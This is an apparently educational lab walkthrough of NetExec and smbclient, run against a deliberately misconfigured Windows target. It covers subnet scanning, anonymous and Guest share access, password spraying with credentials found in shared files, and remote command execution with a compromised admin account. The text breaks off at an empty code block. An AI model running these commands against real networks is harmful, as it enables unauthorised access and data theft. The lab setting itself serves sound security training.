# NetExec

## Lab Goal

The goal of this lab is to introduce **netexec**, a tool widely used in penetration testing assessments. In this lab, we will focus on SMB protocol enumeration.

## In this lab you will

- Identify machines running the SMB protocol in a network
- Perform SMB enumeration to gather information about the target system using tools like **netexec** and **smbclient**
- Follow a structured process after identifying machines with SMB protocol
- Enumerate available SMB shares without authentication
- Discover credentials stored in misconfigured shares
- Use discovered credentials to authenticate to the SMB service
- Exfiltrate files from both anonymous and authenticated SMB shares

## What is netexec

**Netexec** is a tool designed to exploit network services. It helps us conduct network reconnaissance, lateral movement, and security assessments. It is based on **CrackMapExec**, which is no longer maintained. It has various functionalities such as validating credentials, enumerating users, executing commands remotely, and exploiting some common misconfigurations against Windows-based systems. It is designed to interact with multiple protocols such as:

- SMB
- LDAP
- WinRM
- SSH
- MSSQL

In this lab, we will interact with the SMB protocol.

## Protocols Overview

### SMB

**Server Message Block (SMB)** is a network file sharing protocol used to provide access to files, printers, and other resources over a network. It typically operates over 445 TCP port. SMB allows users to read, create, and update files on the remote server.

SMB consists of two components: the SMB server and the SMB client.

- SMB server is the component that shares resources and responds to requests from SMB clients.

- SMB client is the component that connects to remote shares and sends requests to SMB servers.

### LDAP

**Lightweight Directory Access Protocol (LDAP)** is a protocol used to interact with directory services such as Microsoft Active Directory. Administrators retrieve information about users, groups, computers, and domain policies. LDAP is widely used in corporate networks for authentication and authorization, as well as for querying and organizing directory data. It is used from the attackers for enumeration to identify valid users and understand the structure of the domain.

### WinRM

**Windows Remote Management (WinRM)** is a Windows protocol that enables remote management of systems, similar to SSH in Linux environments. It allows authenticated users to connect to a remote machine over HTTP or HTTPS and execute commands or perform administrative tasks. WinRM is commonly used with Windows PowerShell for remote command execution and automation. It is very useful for lateral movement when valid credentials are obtained.

## Windows Setup

Before we start using **netexec**, we must set up our environment (create our users, smb shares, and the smb misconfigurations).

Open a powershell terminal and execute the following commands:

```ps
cd C:\Users\Administrator\Desktop\Labs\netexec
```

```ps
.\create_users.ps1
```

```ps
.\smb_setup.ps1
```

With the above commands, we created the users we will use for this lab and set up the SMB shares.

We have to do one last step before starting the netexec lab.

Right click on the Windows icon and click on `Run`.



Then it will prompt you a window. Write `secpol.msc` and click `OK`.



Now, we will change some security policies. Double click the `Local Policies` and then the `Security Options`. Then scroll down until you find these policies:

- `Network access: Let Everyone permissions apply to anonymous users`
- `Network access: Restrict anonymous access to Named Pipes and Shares`
- `Network access: Shares that can be accessed anonymously`



When you find them change them as follows:

- `Network access: Let Everyone permissions apply to anonymous users` -> Enable
- `Network access: Restrict anonymous access to Named Pipes and Shares` -> Disable
- `Network access: Shares that can be accessed anonymously` -> Add `Public`

In order to perform these changes right click on the policies and then click on `Properties`:



Then do the proper actions (enable/disable/add), apply the changes and click `OK`:





After doing all these changes, close the window and we are ready to start! 

## NetExec syntax

In order to be more reliable using netexec during the lab, let's see some basic syntax of it!

The main syntax of netexec is the following:

```bash
nxc <protocol> <target> [options]
```

For example, a basic smb enumeration would look like this:

```bash
nxc smb 10.10.10.10
```

In case we have (or no) credentials, we can use these parameters in the `options` field:

- `-u`: Specify the username
- `-p`: Specify the password

```bash
nxc smb 10.10.10.10 -u 'user' -p 'password'
```

In this way, we can execute commands with multiple parameters in sequence.

## SMB Discovery

In a penetration testing assesment, you often have to deal with large networks containing many devices. **NetExec** has the capability to scan a lot of devices in the same subnet and give the results. This is very useful because we reduce the amount of time we would spend scanning all of them. To achieve this, we must first find the subnet.

Open an Ubuntu terminal:


Execute the following command:

```bash
cd ~/BnB/netexec
ifconfig
```



Subnet mask: `255.255.192.0`.

Now open a windows terminal and execute the following command:

```
ipconfig
```



Subnet mask: `255.255.192.0`.

Both VMs are in the same subnet, which means they can reach each other over the network. If they were in different subnets without proper routing, SMB tools such as `NetExec` and `smbclient` would not be able to connect to the Windows target.

To scan the whole subnet to find live hosts, we use the network IP followed by the CIDR notation. As we saw, the subnet mask is `255.255.192.0`, so the CIDR notation is `/18`.

In the Ubuntu terminal execute the following command:

```bash
nxc smb 10.10.64.0/18
```



As we can see, netexec found a live host running SMB and gave us a lot of useful information:

- IP address: `10.10.83.124`
- Windows machine hostname: `EC2AMAZ-HGRD9PN`
- Target OS/version and architecture: `Windows 11 / Server 2025 Build 26100 x64`
- The domain that the machine belongs to: `domain:antilab.lan`
- SMB signing is enabled: `signing:True`
- SMBv1 status: `SMBv1:None`
- Null authentication status: `Null Auth:True`, which means anonymous SMB login is allowed, but access may still be restricted

>[!NOTE]
>Write down the IP Address. In this case it is **10.10.83.124** but yours will be different.

## SMB Enumeration

So now we had discovered a host running smb protocol on IP `10.10.83.124`. Run the following command to perform a basic enumeration (your IP will be different; use the discovered one). Remember to replace **10.10.83.124** with *your IP Address*:

```bash
nxc smb 10.10.83.124
```



As we saw in the **SMB Discovery** section, here too we have null authentication status.

### Null Authentication in SMB

In the SMB, a client is normally authenticated with a username and password. However, sometimes some systems are configured to allow connections without providing credentials. This is known as null authentication/null session/anonymous SMB access.

So when someone connects with a null session, the SMB accepts the connection without validating the credentials (username and password). On Windows systems, these anonymous connections are often internally mapped with the **Guest** account.

Even after a client has connected with null authentication, it might not be able to access all the SMB shares. This is happening due to the share's permissions. If the SMB share doesn't have the proper file system/NTFS permissions, the client won't be able to access it. This is a very important distinction!

A system may allow anonymous login, but only certain shares may be accessible anonymously.


Run the following command to figure out if we can authenticate to the SMB using a null session:

```
nxc smb 10.10.83.124 -u '' -p ''
```



The output of the command tells us that we successfully authenticated in the SMB!

This may be a misconfiguration because we might be able to access sensitive data in the SMB shares depending to their permissions.

Let's see if a **Guest** account is enabled in the Windows system:

```bash
nxc smb 10.10.83.124 -u 'Guest' -p ''
```



Indeed it is!

Now we know that the SMB service allows anonymous login and the **Guest** account is enabled.

It's time to list the shares!

In order to list the shares we must use the `--shares` parameter.

```bash
nxc smb 10.10.83.124 -u 'Guest' -p '' --shares
```



From the commands output we see the shared folders. Most of the folders are default SMB folders except these two:

- `NetExecAdmin`
- `Public`

As we see we have `READ` permission to the `Public` folder. We will use the `smbclient` tool to connect to the share and see if we can retrieve any files.

>[!NOTE]
>
>You can also use `smbclient` to list the shares like this:
>`smbclient -L //10.10.83.124 -N`
>
>The `-L` parameter lists the available shares on a host
>The `-N` parameter don't ask for a password at the login phase

Run the following command:

```bash
smbclient //10.10.83.124/Public -N
```

After connecting to the share run, `ls` to list the files of the share:

```bash
ls
```

Then download the files that reside in the share with the command `get` followed by the file name:

```bash
get IT-Help.txt
```

```bash
get Onboarding.txt
```

After downloading the files, exit from the share with the `exit` command.

It must look like this:




Now let's see the content of these files:

```bash
cat Onboarding.txt
```

```bash
cat IT-Help.txt
```





As we can see from the `Onboarding.txt`, we got a default password for the interns! This is very important in most of the cases, some users don't change this password. In this case, we can perform a password spray attack and see if we have any users with the default password.

Observe the output of the `IT-Help.txt` file. We can see a lot of email addresses in a specific format: `<user_name>@netexec.lab`. We will take all the usernames and create a wordlist to perform the password spray attack.

>[!NOTE]
>
>To save some time, the wordlist already exist in the file: `username_wordlist1.txt`

In order to perform a password spray attack with netexet, we need a list of usernames and a password or vice versa. We put the list in the corresponding field `-u` for usernames list, `-p` for passwords list, and the single username/password in the opposite parameter.

In our case, we will put the list in the `-u` parameter and the password in the `-p` parameter, like the following:

```bash
nxc smb 10.10.83.124 -u username_wordlist1.txt -p 'W3lc0meTo0urDep@rtmen1'
```

Because the above command will stop the execution when it finds a username that matches the password, we will add the parameter `--continue-on-success` in order to continue with all the usernames in the list.

Execute the following command:

```bash
nxc smb 10.10.83.124 -u username_wordlist1.txt -p 'W3lc0meTo0urDep@rtmen1' --continue-on-success
```



Excellent!! We found an intern who hasn't changed the default password!

This is a very important foothold, because we now have a domain user, and we can extract more information with netexec.

Now we will list the shares again and see what permissions we have on the shares:

```bash
nxc smb 10.10.83.124 -u 'ethan.parker' -p 'W3lc0meTo0urDep@rtmen1' --shares
```



As we see, we have `READ` permissions in more shares than the `Guest` account, but still we don't have access to the `NetExecAdmin` share.

Now that we have an account with credentials, we can see the users in the domain. To do this, we must use the `--users` parameter.

```bash
nxc smb 10.10.83.124 -u 'ethan.parker' -p 'W3lc0meTo0urDep@rtmen1' --users
```



We now have all the usernames of the domain under the `-Username-` column, and a description of each user under the `-Description-` column.

In most cases, highly privileged users (like IT Admin) put important information in the description field. In our case, we can see that the IT Admin changed some users expired passwords and told them to update them. As we saw in the previous step, some users don't change their passwords, or don't change them in a proper period of time.

We will perform a password spray attack again, but this time we will create a new wordlist with the usernames we retrieved from the above command.

>[!NOTE]
>
>To save some time, the wordlist already exist in the file: `username_wordlist2.txt`


Run the following command:

```bash
nxc smb 10.10.83.124 -u username_wordlist2.txt -p 'BeSur3T0Ch@ng31t' --continue-on-success
```



We got the password of the **NetExecAdmin**!!!

Let's see the shares again and figure out if we have permissions at the `NetExecAdmin` share folder.

Run the following command:

```bash
nxc smb 10.10.83.124 -u 'NetExecAdmin' -p 'BeSur3T0Ch@ng31t' --shares
```



We have `READ` and `WRITE` permissions in the `NetExecAdmin` share folder!!

>[!NOTE]
>
>We also have important privileges in other share folders too, but for the lab demonstration, we only want `NetExecAdmin` share folder.

Hence, now we can connect to the folder and get sensitive data, or upload malicious files.

Using the `-U` parameter with `smbclient`, we can specify the username and the password separated by the `%` character.

```bash
smbclient //10.10.83.124/NetExecAdmin -U 'NetExecAdmin%BeSur3T0Ch@ng31t'
```

Like before, list and download the files from the share.



As we can see, we are able to log in and download files from the share.



One of the most important functionalities with admin users is the remote code execution.

At the time you have compromised an admin account, you are able to execute commands with the help of netexec over the SMB!

This is achieved with the `-x` parameter followed by the command we want to execute. With the `-x` parameter, the commands are executed through `cmd.exe`. With the use of the `-X` parameter, the commands are executed through **PowerShell**.

Run the following commands with the `-x` parameter:

```bash
nxc smb 10.10.83.124 -u 'NetExecAdmin' -p 'BeSur3T0Ch@ng31t' -x 'whoami'
```



```bash
nxc smb 10.10.83.124 -u 'NetExecAdmin' -p 'BeSur3T0Ch@ng31t' -x 'hostname'
```



```bash
nxc smb 10.10.83.124 -u 'NetExecAdmin' -p 'BeSur3T0Ch@ng31t' -x 'dir'
```



```bash
nxc smb 10.10.83.124 -u 'NetExecAdmin' -p 'BeSur3T0Ch@ng31t' -x 'systeminfo'
```



Run the following commands with the `-X` parameter:

```bash
